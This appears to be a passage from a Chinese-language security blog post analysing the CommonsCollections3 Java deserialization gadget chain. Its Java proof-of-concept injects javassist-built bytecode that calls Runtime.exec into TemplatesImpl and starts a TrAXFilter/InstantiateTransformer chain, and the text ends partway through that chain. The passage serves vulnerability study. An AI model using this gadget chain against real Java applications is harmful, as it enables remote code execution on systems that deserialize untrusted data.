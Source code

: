 ## CommonsCollections3 分析
`CommonsCollections3`链其实是`CommonsCollections1`链和`CommonsCollections2`链的结合，为了绕过⼀些规则对`InvokerTransformer`的限制，`CommonsCollections3`并没有使⽤到`InvokerTransformer`来调⽤任意⽅法，根据上面的前置知识，可以利⽤`InstantiateTransformer()`来调⽤到`TrAXFilter()`的构造⽅法，再利⽤其构造⽅法⾥的`templates.newTransformer()`调⽤到`TemplatesImpl`⾥的字节码，这样就比避免使用`InvokerTransformer`。

```java
package CommonsCollections3;

import java.io.*;
import java.lang.*;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 10:33 下午
 */
public class TrAxFilterDemo {

    public static void trAxFilterDemo() throws IllegalAccessException, NoSuchFieldException, NotFoundException, CannotCompileException, IOException {
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("Evil");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetByteCode = new byte[][]{shellCode};

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = templates.getClass();
        Field _name = c1.getDeclaredField("_name");
        Field _bytecode = c1.getDeclaredField("_bytecodes");
        Field _tfactory = c1.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, targetByteCode);
        _tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
```